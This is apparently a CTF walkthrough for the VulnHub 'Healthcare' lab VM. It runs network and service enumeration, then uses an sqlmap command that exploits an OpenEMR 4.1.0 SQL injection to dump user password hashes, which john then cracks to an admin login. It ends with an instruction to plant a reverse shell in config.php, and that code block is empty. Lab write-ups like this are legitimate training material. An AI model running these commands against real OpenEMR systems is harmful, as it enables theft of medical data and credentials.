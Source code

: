 # Healthcare

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:13	(Unknown: locally administered)
192.168.56.100	08:00:27:ec:52:57	PCS Systemtechnik GmbH
192.168.56.135	08:00:27:34:e9:a5	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.135`, let's enumerate it.

### 2.Enumeration

```bash
root@kali: nmap -sV -sC -v 192.168.56.135
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 7D4140C76BF7648531683BFA4F7F8C22
| http-robots.txt: 8 disallowed entries 
| /manual/ /manual-2.2/ /addon-modules/ /doc/ /images/ 
|_/all_our_e-mail_addresses /admin/ /
|_http-server-header: Apache/2.2.17 (PCLinuxOS 2011/PREFORK-1pclos2011)
|_http-title: Coming Soon 2
MAC Address: 08:00:27:34:E9:A5 (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix
```

i begin with port 21 and check anonymous login, but no chance

on port 80 we see nothing intresting too, so i began fuzzing the directories, i tried several wordlists for directory bruteforcing but no chance

finally i used this wordlist `danielmiessler/SecLists/master/Discovery/Web-Content/directory-list-2.3-big.txt` and found this :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d69df255-75e2-4e4a-82a2-4a08b9b5a082)

let's visit this new directory :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/61744c55-fcbe-4ad2-8cb4-b5afc0d24054)

as we can see the version of OpenEMR that is `4.1.0`, we search in searchsploit to find any vulns :

```bash
root@kali: searchsploit openemr
OpenEMR 4.1.0 - 'u' SQL Injection | php/webapps/49742.py
```

on this code we see that there is a vulnerable endpoint and parameter i just copied it and used it in sqlmap :

```bash
root@kali: sqlmap -u "http://192.168.56.135/openemr/interface/login/validateUser.php?u=" -p 'u' --batch -D openemr -T users -C username,password --dump

Database: openemr
Table: users
[2 entries]
+----------+------------------------------------------+
| username | password                                 |
+----------+------------------------------------------+
| admin    | 3863efef9ee2bfbc51ecdca359c6302bed1389e8 |
| medical  | ab24aed5a7c4ad45615cd7e0da816eea39e4895d |
+----------+------------------------------------------+

```

now we can easily crack those hashes with john :

```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Created directory: /root/.john
Press 'q' or Ctrl-C to abort, almost any other key for status
medical          (?)     
ackbar           (?)     
2g 0:00:00:00 DONE (2024-06-11 08:34) 13.33g/s 6909Kp/s 6909Kc/s 6966KC/s acl405..acjy98
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed. 
```

and yes, we can login to website with `admin:ackbar` :


### 3.Gaining Shell


![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a1677583-2ec6-4b5f-ae91-4e5dda63db24)

put your revshell in `config.php` and start a listener on your machine and you will get the shell :

```bash

```




